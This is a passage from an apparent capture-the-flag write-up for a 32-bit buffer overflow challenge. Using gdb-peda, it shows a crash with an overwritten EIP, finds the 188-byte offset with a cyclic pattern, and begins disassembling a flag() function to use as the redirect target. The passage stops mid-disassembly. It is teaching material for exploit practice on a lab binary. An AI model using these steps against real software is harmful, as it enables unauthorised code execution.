	[------------------------------------------------------------------------------]
	Legend: code, data, rodata, value
	Stopped reason: SIGSEGV
	0x41417741 in ?? ()
	```

  > A standard buffer overflow is **used to overwrite the Extended Instruction Pointer (EIP)**. It is usually possible to predict an appropriate EIP value that will land execution within the NOPs (No Operation) which will “execute” until the payload (usually shellcode) is encountered.

  ```EIP-value
  # we have successfully overflowed the IP
  EIP: 0x41417741 ('AwAA')
  ```

8. We need to find the offset, which will enable us to find the exact location after which we can inject our payload:

	```shell
  # find the offset
	# we use the address of the EIP
	gdb-peda$ pattern_offset 0x41417741
	1094809409 found at offset: 188
	```

  > We need exactly 188 chars/bit to achieve overflow. We usually inject code to achieve RCE, but in this case we need to use the `flag()` function to reveal its value.

9. Find out the start of the `flag()` function:

	```shell
  # find out where the flag function start by disassembling it
	gdb-peda$ disas flag
	Dump of assembler code for function flag:
	   0x080491e2 <+0>:     push   ebp
	   0x080491e3 <+1>:     mov    ebp,esp
	   0x080491e5 <+3>:     push   ebx
	   0x080491e6 <+4>:     sub    esp,0x54
	   0x080491e9 <+7>:     call   0x8049120 <__x86.get_pc_thunk.bx>
	   0x080491ee <+12>:    add    ebx,0x2e12
	   0x080491f4 <+18>:    sub    esp,0x8
	   0x080491f7 <+21>:    lea    eax,[ebx-0x1ff8]
	   0x080491fd <+27>:    push   eax
	   0x080491fe <+28>:    lea    eax,[ebx-0x1ff6]
	   0x08049204 <+34>:    push   eax
	   0x08049205 <+35>:    call   0x80490b0 <fopen@plt>
	   0x0804920a <+40>:    add    esp,0x10
	   0x0804920d <+43>:    mov    DWORD PTR [ebp-0xc],eax
	   0x08049210 <+46>:    cmp    DWORD PTR [ebp-0xc],0x0
	   0x08049214 <+50>:    jne    0x8049232 <flag+80>
	   0x08049216 <+52>:    sub    esp,0xc
	   0x08049219 <+55>:    lea    eax,[ebx-0x1fec]
	   0x0804921f <+61>:    push   eax
	   0x08049220 <+62>:    call   0x8049070 <puts@plt>
	   0x08049225 <+67>:    add    esp,0x10
	   0x08049228 <+70>:    sub    esp,0xc
	   0x0804922b <+73>:    push   0x0
	   0x0804922d <+75>:    call   0x8049080 <exit@plt>
	   0x08049232 <+80>:    sub    esp,0x4
	   0x08049235 <+83>:    push   DWORD PTR [ebp-0xc]
	   0x08049238 <+86>:    push   0x40